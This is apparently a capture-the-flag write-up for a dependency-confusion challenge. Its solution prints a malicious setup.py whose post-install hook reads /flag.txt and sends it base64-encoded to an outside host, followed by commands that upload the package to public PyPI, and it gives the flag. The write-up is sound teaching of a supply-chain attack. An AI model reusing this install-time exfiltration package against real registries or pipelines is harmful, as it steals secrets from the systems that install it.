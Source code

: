 #### Challenge:

An enemy of The Empire have a job for you. As an adversary he want to hack `CTFQ21EmpireTmp`. He heard that in their server is hosting their holy flag in /flag.txt

No IP address is needed in this task. Good luck.
̿̿ ̿̿ ̿̿ ̿'̿'\̵͇̿̿\з= ( ▀ ͜͞ʖ▀) =ε/̵͇̿̿/'̿'̿ ̿ ̿̿ ̿̿ ̿̿ 

Important: Whatever was the solution that you're going to adopt, if you want to use webhooks, DO NOT USE any of those that allows other participants to see the flag (don't use webhook.site, you may let other participants to catch the flag from there) (for example you can use requestbin instead of webhook.site since the flag can be seen by the authenticated user). Think about using a method that will not leave anybody else to read the flag from your steps. And don't forget to remove your work after you solve the task to avoid anybody else to steal it.

Hint 1: find the original web page (in the original website) that was sharing what you've found since that page is not updated

---

#### Solution:

- while searching for `CTFQ21EmpireTmp` we found an [stackoverflow](https://stackoverflow.com/questions/66717285/is-there-any-limit-in-pythons-requirements-txt-during-the-installation) post from `TheEmperor`, that told us that some kind of `CI/CD` install packages matching this regex `ctf-q21-empire-tmp-[a-z0-9\-]{5,10}`
- based on that we can prepare our own package that will leak the `flag` content via `setup` script

```python
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://hostname/?secret="+os.popen("cat /flag.txt | base64").read())

setup(
    name='ctf-q21-empire-tmp-adeadbeef',
    description='666',
    version='6.6.6',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand
    }
    )
```

- this `setup.py` then can be `builded` and `packaged` for `pypi` and served to external `CI/CD` [ctf-q21-empire-tmp-adeadbeef-6.6.6.tar.gz](./ctf-q21-empire-tmp-adeadbeef-6.6.6.tar.gz ":ignore")

```bash
python3 -m pip install --upgrade build
python3 setup.py sdist
python3 -m pip install --user --upgrade twine
python3 -m twine upload --repository pypi dist/*
```

- after waiting for 5min we can decode the received message for flag

```console
This is what we call 'Dependency confusion' that is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .  Which is part of the Open Source Software Supply Chain Attacks. Flag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough} We didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```
---

<details><summary>FLAG:</summary>

```
Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}
```

</details>
<br/>
